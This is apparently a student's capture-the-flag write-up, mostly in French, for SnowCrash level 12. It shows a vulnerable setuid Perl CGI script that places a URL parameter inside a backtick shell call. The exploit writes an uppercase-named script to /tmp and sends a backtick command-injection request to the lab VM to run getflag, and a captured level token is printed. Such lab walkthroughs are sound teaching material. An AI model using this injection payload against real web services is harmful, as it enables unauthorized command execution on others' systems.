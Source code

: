 # Level 12

</br></br>

## check file level 12
```zsh
level12@SnowCrash:~$ ls -al
total 16
dr-xr-x---+ 1 level12 level12  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level12 level12  220 Apr  3  2012 .bash_logout
-r-x------  1 level12 level12 3518 Aug 30  2015 .bashrc
-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl
-r-x------  1 level12 level12  675 Apr  3  2012 .profile
level12@SnowCrash:~$ ./level12.pl 
Content-type: text/html

..level12@SnowCrash:~$ cat level12.pl 
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```
Étant donné que c'est un CGI, il est nécessaire de créer un script

</br></br>

## make CGI file
```zsh
level12@SnowCrash:~$ vim /tmp/GETFLAG
level12@SnowCrash:~$ cat /tmp/GETFLAG
#!/bin/bash
getflag > /tmp/flag
level12@SnowCrash:~$ chmod +x /tmp/GETFLAG
```
dans le pl script, le nom de fichier est changé en mascule.
donc, on doit créer le fichier en mascule et avec "backtick".
en tour cas, backtick et systemcall dans le code ou script,
on peut executer la commande

</br></br>

## execute
connect to 
> http://192.168.56.101:4646/?x=`/tmp/GETFLAG`

```zsh
level12@SnowCrash:~$ cat /tmp/flag12
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
level12@SnowCrash:~$ su level13 
Password: 
level13@SnowCrash:~$ 
```